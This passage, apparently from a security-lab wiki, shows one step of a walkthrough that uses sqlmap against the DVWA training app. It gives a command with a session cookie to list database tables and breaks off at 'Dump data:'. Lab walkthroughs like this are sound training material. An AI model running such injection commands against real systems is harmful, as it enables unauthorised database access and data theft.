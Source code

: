 ## 🧬 Step 14: Dump Database Contents
Once SQLMap finds the database names, you can:

Get tables:

```bash
sqlmap -u "<target>" -D dvwa --tables --cookie="PHPSESSID=xyz; security=low"
```

![SQLMap 4](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/17.png?raw=true)


![SQLMap 5](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/18.png?raw=true)

Dump data:
